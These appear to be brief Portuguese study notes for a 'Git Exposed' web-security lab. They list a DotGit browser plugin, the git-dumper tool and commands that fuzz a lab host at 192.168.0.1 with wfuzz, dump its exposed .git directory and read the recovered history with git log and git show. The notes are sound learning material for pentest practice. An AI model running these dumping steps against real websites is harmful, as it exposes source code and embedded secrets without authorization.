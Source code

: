 ## Exploração básica (Web)

## Git Exposed Attack

LAB: Git Exposed

Plugin Browser: DotGit - Pluguin para detectar se existe uma pasta .git na apalicacação web.

Uma ferramenta para despejar um repositório git de um site:

https://github.com/arthaud/git-dumper

Comands: 

`wfuzz -c -z file,common.txt --hc 404 --hh 264 http://192.168.0.1/FUZZ`

`python3 git_dumper.py http://192.168.0.1/ info_git`

`git status`

`git log`

`git show`



